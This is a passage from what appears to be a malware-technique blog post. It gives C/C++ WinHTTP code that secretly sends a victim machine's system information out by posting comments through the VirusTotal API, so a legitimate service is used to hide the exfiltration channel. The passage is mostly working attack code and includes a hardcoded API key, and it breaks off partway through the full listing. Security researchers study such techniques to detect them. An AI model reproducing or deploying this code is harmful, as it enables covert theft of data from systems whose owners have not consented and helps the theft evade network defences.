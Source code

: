```cpp
      printf("comment posted successfully.\n");
    } else {
      printf("failed to post comment. HTTP Status Code: %d\n", code);
    }
  } else {
    DWORD error = GetLastError();
    LPSTR buffer = NULL;
    FormatMessageA(FORMAT_MESSAGE_ALLOCATE_BUFFER | 
    FORMAT_MESSAGE_FROM_SYSTEM | FORMAT_MESSAGE_IGNORE_INSERTS,
                   NULL, error, 0, (LPSTR)&buffer, 0, NULL);
    printf("WTF? unknown error: %s\n", buffer);
    LocalFree(buffer);
  }

  WinHttpCloseHandle(hConnect);
  WinHttpCloseHandle(hRequest);
  WinHttpCloseHandle(hSession);

  printf("successfully send info via VT API :)\n");
  return 0;
}
```

As you can see, this is just post request, in my case file ID = `379698a4f06f18cb3ad388145cf62f47a8da22852a08dd19b3ef48aaedffd3fa`.     

So the full source code is looks like this:    

```cpp
/*
 * hack.c
 * sending systeminfo via legit URL. VirusTotal API
 * author @cocomelonc
 * https://cocomelonc.github.io/malware/2024/06/25/malware-trick-41.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <winhttp.h>
#include <iphlpapi.h>

#define VT_API_KEY "7e7778f8c29bc4b171512caa6cc81af63ed96832f53e7e35fb706dd320ab8c42"
#define FILE_ID "379698a4f06f18cb3ad388145cf62f47a8da22852a08dd19b3ef48aaedffd3fa"

// send data to VirusTotal using winhttp
int sendToVT(const char* comment) {
  HINTERNET hSession = NULL;
  HINTERNET hConnect = NULL;

  hSession = WinHttpOpen(L"UserAgent", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
  if (hSession == NULL) {
    fprintf(stderr, "WinHttpOpen. Error: %d has occurred.\n", GetLastError());
    return 1;
  }

  hConnect = WinHttpConnect(hSession, L"www.virustotal.com", INTERNET_DEFAULT_HTTPS_PORT, 0);
  if (hConnect == NULL) {
    fprintf(stderr, "WinHttpConnect. error: %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hSession);
  }

```